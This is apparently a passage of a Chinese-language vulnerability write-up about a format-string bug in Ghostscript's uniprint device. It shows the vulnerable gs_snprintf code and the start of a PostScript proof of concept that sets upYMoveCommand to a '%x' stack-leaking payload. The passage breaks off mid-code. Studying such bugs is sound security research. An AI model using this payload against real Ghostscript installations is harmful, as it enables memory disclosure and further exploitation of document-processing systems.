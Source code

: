 ```
   1b2a726243
   1b2a7433303052
   1b266c33616f6c45
   1b2a6f31643251
   1b2a703059
   1b2a72732d34753041
   1b2a62326d
>"
-dupAdjustPageWidthCommand
-dupEndPageCommand="(0M\033*rbC\033E\033&l0H)"
-dupAbortCommand="(0M\033*rbC\033E\15\12\12\12\12 Printout-Aborted\15\033&l0H)"
-dupYMoveCommand="(%dy\0)"
-dupWriteComponentCommands="{ (%dv\0) (%dv\0) (%dv\0) (%dw\0) }"
```  
  
  
如果仔细查看最后几个参数，您会注意到upYMoveCommand和upWriteComponentCommands包含格式字符串说明符。具体来说，%d用于在选定位置合并整数参数。据推测，这是为了跨不同打印机方言实现多功能性。  
  
查看代码库可以确认这些参数确实按原样用作格式字符串，但仅限于\Pcl输出格式的情况（uniprint 支持多种输出格式）。在 的情况下upOutputFormat == \Pcl，函数upd_wrtrtl用于渲染。在该函数内部， 的内容upYMoveCommand（在设备初始化期间复制到upd->strings[S_YMOVE]）用作 函数的格式字符串gs_snprintf，并将计算出的“Y 位置”作为可变参数传递：  
  
```
/*       * Adjust the Printers Y-Position       */
      if(upd->yscan != upd->yprinter) { /* Adjust Y-Position */
         if(1 < upd->strings[S_YMOVE].size) {
           gs_snprintf((char *)upd->outbuf+ioutbuf, upd->noutbuf-ioutbuf,
             (const char *) upd->strings[S_YMOVE].data,
             upd->yscan - upd->yprinter);
           ioutbuf += strlen((char *)upd->outbuf+ioutbuf);
         } else {
           <snip>
         }
       }
```  
  
  
如果您熟悉格式字符串漏洞，那么您就会知道接下来会发生什么！  
  
**概念证明**  
  
由于这些参数只是常规设备参数，我们可以使用setpagedevice将设备更改为uniprint，就像我们之前所做的那样。然后，只需在传递给 的字典中设置它们，pdfwrite即可轻松传递各种参数的任意值。upXXXXsetpagedevice  
  
至于带有格式字符串的两个参数，看起来upYMoveCommand最好玩，因为它只是一个字符串，如果您渲染一个简单的页面，则只会格式化一次。看起来这个命令用于告诉打印机在打印任何后续内容之前将打印头移动到特定的 Y 位置。但对于这种攻击，预期目的是什么并不重要。  
  
那么，让我们尝试一个简单的概念验证。我们以之前的 PDF 示例为例，我们写入/tmp/foobar并读取它，但将setpagedevice调用替换为以下内容：  
  
```
% Change the page device to `uniprint`, setting its output file and other params
<<
  /OutputFile (/tmp/foobar)
  /OutputDevice /uniprint

  % Required uniprint parameters to reach the `upd_wrtrtl(...)` variant
  /upColorModel /DeviceCMYKgenerate
  /upRendering /FSCMYK32
  /upOutputFormat /Pcl
  
  % Set our testing payload
  /upYMoveCommand (1:%x\n2:%x\n3:%x\n4:%x\n5:%x\n6:%x\n7:%x\n8:%x\n)

  % Set some of the other string parameters
  /upBeginJobCommand (Hello job!\n)
  /upBeginPageCommand (Hello page!\n)

```